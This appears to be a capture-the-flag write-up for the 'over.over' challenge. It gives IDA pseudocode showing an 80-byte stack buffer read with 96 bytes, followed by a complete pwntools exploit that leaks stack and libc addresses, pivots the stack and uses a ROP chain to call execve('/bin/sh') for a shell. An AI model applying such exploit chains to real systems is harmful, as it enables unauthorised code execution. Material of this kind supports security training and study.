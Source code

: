 #####IDA
```
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  while ( sub_400676() )
    ;
  return 0LL;
}

int sub_400676()
{
  char buf[80]; // [rsp+0h] [rbp-50h]

  memset(buf, 0, sizeof(buf));
  putchar('>');
  read(0, buf, 96uLL);
  return puts(buf);
}
```

#####EXP
```
from pwn import *
context.binary = "./over.over"

def DEBUG(cmd):
    raw_input("DEBUG: ")
    gdb.attach(io, cmd)

io = process("./over.over")
elf = ELF("./over.over")
libc = elf.libc

io.sendafter(">", 'a' * 80)
stack = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\0')) - 0x70
success("stack -> {:#x}".format(stack))


#  DEBUG("b *0x4006B9\nc")
io.sendafter(">", flat(['11111111', 0x400793, elf.got['puts'],\
 elf.plt['puts'], 0x400676, (80 - 40) * '1', stack, 0x4006be]))\
libc.address = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\0')) - \
libc.sym['puts']
success("libc.address -> {:#x}".format(libc.address))

pop_rdi_ret=0x400793
'''
$ ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --only "pop|ret"
0x00000000000f5279 : pop rdx ; pop rsi ; ret
'''
pop_rdx_pop_rsi_ret=libc.address+0xf5279


payload=flat(['22222222', pop_rdi_ret, \
next(libc.search("/bin/sh")),pop_rdx_pop_rsi_ret,p64(0),p64(0), \
libc.sym['execve'], (80 - 7*8 ) * '2', stack - 0x30, 0x4006be])

io.sendafter(">", payload)

io.interactive()
```
